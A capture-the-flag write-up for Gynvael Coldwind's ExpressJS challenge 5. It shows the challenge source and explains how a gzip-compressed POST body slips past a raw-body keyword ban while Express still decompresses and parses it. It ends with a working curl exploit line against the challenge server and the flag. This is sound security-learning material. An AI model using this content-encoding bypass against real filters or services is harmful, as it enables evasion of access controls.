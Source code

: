 # Gynvael Coldwind ExpressJS challenge 5

Source: https://twitter.com/gynvael/status/1262434816714313729

## Challenge

We are provided with this code on the web page:
```javascript
const http = require('http')
const express = require('express')
const fs = require('fs')
const path = require('path')

const PORT = 5005
const FLAG = process.env.FLAG || "???"
const SOURCE = fs.readFileSync(path.basename(__filename))

const app = express()

app.use(express.urlencoded({extended: false}))

app.post('/flag', (req, res) => {
  res.statusCode = 200
  res.setHeader('Content-Type', 'text/plain;charset=utf-8')

  if (req.body.secret !== 'ShowMeTheFlag') {
    res.end("Say the magic phrase!")
    return
  }

  if (req.youAreBanned) {
    res.end("How about no.")
    return
  }

  res.end(FLAG)
})

app.get('/', (req, res) => {
  res.statusCode = 200
  res.setHeader('Content-Type', 'text/plain;charset=utf-8')
  res.write("Level 5\n\n")
  res.end(SOURCE)
})

const proxy = function(req, res) {
  req.youAreBanned = false
  let body = ''
  req
    .prependListener('data', (data) => { body += data })
    .prependListener('end', () => {
      const o = new URLSearchParams(body)
      req.youAreBanned = o.toString().includes("ShowMeTheFlag")
    })
  return app(req, res)
}

const server = http.createServer(proxy)
server.listen(PORT, () => {
  console.log(`Challenge listening at port ${PORT}`)
})
```

## Analysis

OK, so this is similar to the previous level. We need to get the flag by complying to two constraints:
- `req.body.secret === 'ShowMeTheFlag'`
- `!req.youAreBanned`

We can supply `secret=ShowMeTheFlag` payload easily to `/flag` endpoint, but the `end` listener will set `youAreBanned` to `true`:
```javascript
.prependListener('end', () => {
    const o = new URLSearchParams(body)
    req.youAreBanned = o.toString().includes("ShowMeTheFlag")
})
```

I also noticed this (`extended` param):
```javascript
app.use(express.urlencoded({extended: false}))
```

Looking into [the documentation](https://expressjs.com/en/api.html#express.urlencoded) the `extended` parameter is used to define which URL encoded data parser library to use (querystring vs qs). This made me [search for specific payloads](https://github.com/expressjs/express/blob/master/test/express.urlencoded.js) that could be supplied to querystring.parse, but in the end did not make sense since `ShowMeTheFlag` should be supplied to the HTTP body in full which would make the `youAreBanned` property set to `true`.

Another look into the same documentation showed an additional `inflate` parameter that was not defined inside the code (meaning that it is set to `true`):
> Enables or disables handling deflated (compressed) bodies; when disabled, deflated bodies are rejected.

What if we supply gzip compressed payload?

## Solution

Since `inflate` is set to `true`, Express will decompress gzip payloads to `req.body`, but the end listener will work with raw `body` data which will not contain `ShowMeTheFlag` string. Therefore, we will be able to bypass `youAreBanned` switch, whereas `req.body.secret` will be decompressed and parsed properly.

```sh
$ echo -n 'secret=ShowMeTheFlag' | gzip | curl "http://challenges.gynvael.stream:5005/flag" -H "Content-Encoding: gzip" --data-binary @-
CTF{||SameAsLevel4ButDifferent||}
``` 
